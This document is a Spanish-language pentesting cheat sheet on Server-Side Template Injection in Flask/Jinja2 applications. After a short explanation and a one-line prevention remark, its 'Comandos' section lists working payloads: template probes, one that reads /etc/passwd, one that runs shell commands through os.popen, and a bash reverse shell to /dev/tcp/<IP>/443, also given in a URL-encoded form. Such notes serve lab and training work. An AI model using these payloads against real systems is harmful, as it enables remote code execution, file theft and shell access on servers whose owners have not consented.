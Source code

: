 # Server-Side Template Injection (SSTI)

Tags: #SSTI #OWASP #Explotacion 

* [HackTricks](https://book.hacktricks.xyz/welcome/readme)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

El **Server-Side Template Injection** (**SSTI**) es una vulnerabilidad de seguridad en la que un atacante puede inyectar código malicioso en una **plantilla** de servidor.

Las plantillas de servidor son archivos que contienen código que se utiliza para generar **contenido dinámico** en una aplicación web. Los atacantes pueden aprovechar una vulnerabilidad de SSTI para inyectar código malicioso en una plantilla de servidor, lo que les permite ejecutar comandos en el servidor y obtener acceso no autorizado tanto a la aplicación web como a posibles datos sensibles.

Por ejemplo, imagina que una aplicación web utiliza plantillas de servidor para generar correos electrónicos personalizados. Un atacante podría aprovechar una vulnerabilidad de **SSTI** para inyectar código malicioso en la plantilla de correo electrónico, lo que permitiría al atacante ejecutar comandos en el servidor y obtener acceso no autorizado a los datos sensibles de la aplicación web.

En un caso práctico, los atacantes pueden detectar si una aplicación Flask está en uso, por ejemplo, utilizando herramientas como **WhatWeb**. Si un atacante detecta que una aplicación **Flask** está en uso, puede intentar explotar una vulnerabilidad de **SSTI**, ya que Flask utiliza el motor de plantillas **Jinja2**, que es vulnerable a este tipo de ataque.

Para los atacantes, detectar una aplicación Flask o Python puede ser un primer paso en el proceso de intentar explotar una vulnerabilidad de SSTI. Sin embargo, los atacantes también pueden intentar identificar vulnerabilidades de SSTI en otras aplicaciones web que utilicen diferentes frameworks de plantillas, como Django, Ruby on Rails, entre otros.

Para prevenir los ataques de SSTI, los desarrolladores de aplicaciones web deben validar y filtrar adecuadamente la entrada del usuario y utilizar herramientas y frameworks de plantillas seguros que implementen medidas de seguridad para prevenir la inyección de código malicioso.


## Comandos

* En **PayloadAllTheThings** nos debemos de ir a **Python - Jinja2**  

Inyecciones SSTI
```bash
❯ {{7*7}}    # El Output nos debe devolver un 49
```

```bash
❯ {{'7'*7}}    # El output nos debe de devolver un 7 representado 7 veces
```

Podemos leer archivos.
```bash
❯ {{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

Podemos ejecutar comandos.
```bash
❯ {{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Podemos hacer una ReverShell.
```bash
❯ {{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/<IP>/443 0>&1').read() }}

	# El & en la url, lo debemos de cambiar a %26 para que li interprete de la mejor manera

❯ {{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >%26 /dev/tcp/<IP>/443 0>%261').read() }}
```